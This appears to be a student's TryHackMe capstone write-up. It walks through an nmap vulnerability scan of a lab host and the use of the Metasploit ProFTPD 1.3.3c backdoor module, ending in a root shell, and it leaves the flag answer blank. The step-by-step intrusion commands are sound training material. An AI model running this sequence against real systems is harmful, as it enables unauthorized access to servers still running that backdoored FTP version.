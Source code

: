 # TryHackMe
  https://tryhackme.com/jr/mirolabscapstone
  
<img src="THM_capstone1.png"
     alt="THM_capstone1_icon"
     style="float: left; margin-right: 10px;" />

# Connection

`openvpn computershane\(1\).ovpn`

LHOST-`10.2.70.52` 

RHOST-`10.10.246.145`


# Scan

`nmap 10.10.246.145 `

Open ports found 

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

# Enumerate

`nmap -A -sV --script vuln 10.10.246.145`

-A for agressive scan
-sV for version detection
--script vuln for vulnerabilities

`21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.`

# Exploit

`msfconsole`

`search proftp`

`use exploit/unix/ftp/proftpd_133c_backdoor`

`show options`

set my RHOST to 10.10.246.145

set payload 2

`exploit`

failed

`set payload 0`

`exploit`

# Escalate

<img src="I_AM_Root.png"
     alt="I_AM_Root_icon"
     style="float: left; margin-right: 10px;" />
     
I now have Root

Sumbitted Screenshot to Professor in DM in Discord to retrieve flag for THM.

Flag

Answer-`












